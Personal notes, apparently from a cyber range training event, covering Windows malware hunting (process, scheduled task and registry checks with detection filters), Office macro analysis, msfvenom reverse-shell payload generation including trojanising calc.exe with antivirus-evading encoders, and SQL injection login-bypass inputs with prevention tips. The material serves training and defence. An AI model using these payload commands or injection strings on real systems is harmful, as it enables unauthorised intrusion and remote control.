 <!-- ASD Programme Logo -->
<p align="center">
  <img src="https://github.com/simon-im-security/ASD-Live-Fire-Exchange-Program/blob/main/Australian_Signals_Directorate_program_logo.png" alt="ASD Programme Logo" width="300">
</p>

<p><strong>These are my personal notes from the <em>ASD Live Fire Cyberbitrange</em> event. This document is not provided by or affiliated with the <em>Australian Signals Directorate (ASD)</em> or <em>CyberbitRange</em>.</strong></p>

---

<details>
<summary><strong>🌐 LFE 1 Bangalore - Malicious Detection</strong></summary>

### 🛠 Topics Covered
- Process and task investigation
- Scheduled task review and removal
- Registry autorun inspection
- Network port activity check
- Suspicious file hunting

### 🔎 Scenario: Command and Control (C2) Detection

- Gather logs using Event Viewer
- Identify malware via IOCs
- Remove malware and kill process
- Investigate network activity (C2)
- Block source and set firewall rules
- Remove persistence (startup/registry/scheduled tasks)

### 🧱 Step 1: Process Monitoring
```powershell
taskmgr

tasklist | findstr /i "powershell cmd python wscript cscript mshta wmic rundll32 regsvr32 schtasks bitsadmin"

taskkill /F /PID <PID>

eventvwr
```

### 🗓 Step 2: Scheduled Tasks
```powershell
taskschd

Get-ScheduledTask | ? {
  $_.TaskPath -notmatch "^\\Microsoft\\Windows" -and 
  ($_.Actions | % Execute | Out-String) -match "cmd|powershell|python|wscript|cscript|.bat|.vbs|.js|.py|mshta|rundll32|schtasks|bitsadmin"
}

Unregister-ScheduledTask -TaskName "<SuspiciousTaskName>" -Confirm:$false
```

### 🧼 Step 3: Registry Startup
```powershell
regedit

reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
```

### 🌐 Step 4: Network Communications
```powershell
netstat -bano
```

### 📁 Step 5: File Investigation
```powershell
Get-ChildItem -Path C:\Users -Include *.xlsx,*.docx,*.pdf -File -Recurse -ErrorAction SilentlyContinue
```

</details>

---

<details>
<summary><strong>🌋 LFE 2 Jakarta - Multi-Stage Malware & Analysis</strong></summary>

### 🛠 Topics Covered
- Office macro analysis with oletools
- Payload creation using msfvenom
- File encryption via OpenSSL
- Network inspection with Wireshark
- Basic SQL injection testing

### 🔎 Macro Analysis with `oletools`

`oletools` is a Python-based toolset for analysing Microsoft OLE2 files (e.g. Office documents). It helps detect malicious macros, extract metadata, and uncover indicators of compromise.

#### 🔧 Common Tools & Flags:
```bash
olevba -a suspicious.doc      # Full analysis
olevba -c suspicious.doc      # Extract macro code only
olevba --decode suspicious.doc # Decode obfuscated content
olevba --json suspicious.doc  # Output in JSON

mraptor suspicious.doc        # Detect risky macro patterns
mraptor --json suspicious.doc

olemeta suspicious.doc        # Extract file metadata
olemeta --json suspicious.doc

oleid suspicious.doc          # File structure and risk features
oleid --json suspicious.doc

oleobj -e -d output suspicious.doc # Extract embedded OLE objects
rtfobj -d output suspicious.rtf    # Extract objects from RTF
```

### 💣 Payload Crafting with `msfvenom`

`msfvenom` combines `msfpayload` and `msfencode`, allowing you to create encoded payloads in various formats for different platforms.

#### 🧪 Command Structure:
```bash
msfvenom -p <payload> LHOST=<ip> LPORT=<port> -f <format> -o <output> [-e <encoder>] [-i <iterations>] [-x <template.exe>]
```

#### 🧾 Flag Breakdown:
- `-p`: Payload type (e.g., `windows/meterpreter/reverse_tcp`)
- `LHOST`: Attacker IP to receive the connection
- `LPORT`: Listener port
- `-f`: Output format (e.g., `exe`, `elf`, `asp`, `raw`, `psh`)
- `-o`: Output filename
- `-e`: Encoder (e.g., `x86/shikata_ga_nai`)
- `-i`: Number of encoding iterations
- `-x`: Inject into a legitimate executable (trojanise)

#### 📦 Common Formats:
- `exe`: Windows executables
- `elf`: Linux binaries
- `psh`: PowerShell commands
- `raw`, `asp`, `war`, `vbscript`, `bash`, `c`, etc.

#### 🔁 Encoders:
Encoders help obfuscate payloads to evade signature-based AV:
```bash
msfvenom -l encoders
```
Example encoder: `x86/shikata_ga_nai`

#### 🧰 Examples:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 -f exe -o payload.exe
```
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.10 -f exe -x C:\Windows\System32\calc.exe -o mal.exe -e x86/shikata_ga_nai -i 3
```

### 🔐 File Encryption with OpenSSL
```powershell
openssl.exe enc -aes-256-cbc -base64 -in "C:\Users\cyberuser\Desktop\Files\Pass.txt" -out "C:\Users\cyberuser\Desktop\Pass.enc" -K 000001234567890ABCDEFABCDEF -iv 0
```

### 📊 Wireshark Filters
```wireshark
frame.number == 1437
frame.number >= 1434 and frame.number <= 1440
tcp.analysis.retransmission
frame.number == 1437 and tcp.analysis.retransmission
```

### 🔢 SQL Injection Basics
**Used on login forms where inputs are not sanitised**

#### Sample Username/Password Inputs:
```plaintext
Username: ' OR 1=1;--
Password: (blank or anything)

Username: admin' --
Password: anything

Username: ' OR 'a'='a';--
Password: anything

Username: " OR ""="
Password: anything
```

#### Underlying Query Logic:
```sql
SELECT * FROM users WHERE username = 'admin' AND password = 'password';
```
Injecting:
```sql
SELECT * FROM users WHERE username = '' OR 1=1;--' AND password = '';
```

#### SQL Clause Order Reference:
1. `SELECT`
2. `FROM`
3. `WHERE`
4. `GROUP BY` / `HAVING`
5. `ORDER BY`

#### SQL Injection Prevention:
- Use prepared statements / parameterised queries
- Sanitize user inputs (strip/escape)
- Apply least privilege to DB accounts
- Log and alert on suspicious queries

</details>
